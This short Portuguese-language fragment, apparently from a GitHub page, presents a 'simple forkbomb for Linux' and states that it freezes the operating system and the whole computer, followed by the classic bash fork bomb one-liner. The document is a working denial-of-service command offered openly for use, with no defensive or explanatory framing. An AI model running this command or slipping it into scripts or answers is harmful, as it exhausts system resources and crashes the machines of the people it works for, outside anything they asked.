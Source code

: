 0x00 : 

- Forkbomb simples pro Linux. ( Trava o SO e o computador todo )

```bash
:(){ :|:& } ;:
```